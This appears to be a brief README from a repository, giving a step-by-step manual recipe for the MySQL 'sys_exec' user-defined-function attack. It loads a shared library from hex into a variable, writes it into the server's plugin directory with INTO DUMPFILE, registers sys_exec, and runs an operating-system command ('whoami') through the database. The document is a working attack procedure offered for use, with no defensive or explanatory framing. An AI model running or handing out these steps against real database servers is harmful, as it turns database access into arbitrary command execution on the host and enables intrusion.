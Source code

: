 mysql sys_exec UDF
==================

Manual
======

        # copy clipboard hex values
        cat lib_mysqludf_sys.so.hex | xclip -selection c
        # set vars with hex values
        set @shell =  0x${lib_mysqludf_sys.so.hex};
        # retrieve plugin dir path
        select @@plugin_dir;
        select binary @shell into dumpfile '${plugin_di_path}/udf_sys_exec.so';
        create function sys_exec returns int soname 'udf_sys_exec.so';
        select * from mysql.func where name='sys_exec';
        select sys_exec('whoami');

